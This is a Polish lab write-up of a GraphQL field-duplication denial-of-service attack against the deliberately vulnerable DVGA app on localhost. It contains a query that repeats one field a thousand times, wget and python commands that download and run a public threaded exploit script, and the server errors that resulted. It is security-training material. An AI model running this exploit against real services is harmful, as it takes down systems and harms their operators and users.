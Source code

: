 ```
query {
  pastes {
    owner {
      pastes {
            ipAddr # 1
            ipAddr # 2
            ipAddr # 3
            ipAddr # 4
            ...
            ipAddr # 1000
          }
        }
      }
}

```

#Wykonanie

W celu automatyzacji ataku typu Field Duplication oraz osiągnięcia faktycznego wpływu na wydajność aplikacji DVGA, wykorzystano ogólnodostępny exploit opublikowany przez Dolevf.

Skrypt ten umożliwia dynamiczne generowanie zapytania GraphQL zawierającego dużą liczbę powtórzeń tego samego pola, a następnie jego wysłanie do serwera w wielu wątkach.

```
wget https://raw.githubusercontent.com/dolevf/Black-Hat-GraphQL/master/ch05/exploit_threaded_field_dup.py

python3 exploit_threaded_field_dup.py http://localhost:5013/graphql

python3 exploit_threaded_field_dup.py http://localhost:5013/graphql --depth 1000 --threads 20

```

Po uruchomieniu exploita i rozpoczęciu przesyłania równoległych zapytań zawierających setki powtórzeń pola ipAddr, zauważono drastyczny wzrost czasu odpowiedzi serwera DVGA. W wielu przypadkach zapytania kończyły się błędami 504 Gateway Timeout lub 500 Internal Server Error.

Skrypt w konfiguracji --depth 1000 --threads 20 wygenerował zapytanie z tysiącem powtórzeń tego samego pola i rozesłał je równolegle w 20 wątkach, powodując maksymalne obciążenie aplikacji.

Atak typu Field Duplication, gdy zostanie zautomatyzowany, staje się niezwykle efektywnym narzędziem DoS – zwłaszcza w połączeniu z równoległym przetwarzaniem i dużą liczbą instancji. Jego skuteczność wynika z faktu, że wiele implementacji GraphQL nie stosuje deduplikacji zapytań na poziomie AST lub parsera.

![image](https://github.com/user-attachments/assets/0ecaf134-06fb-417b-92b9-f90bcb4e41ff)

W trakcie działania skryptu exploit_threaded_field_dup.py, DVGA przestała odpowiadać na nowe połączenia HTTP. W terminalu pojawiły się wielokrotne wyjątki typu:

```
urllib3.exceptions.NewConnectionError:
Failed to establish a new connection: [Errno 16] Device or resource busy

urllib3.exceptions.MaxRetryError:
Max retries exceeded with url: /graphql
```
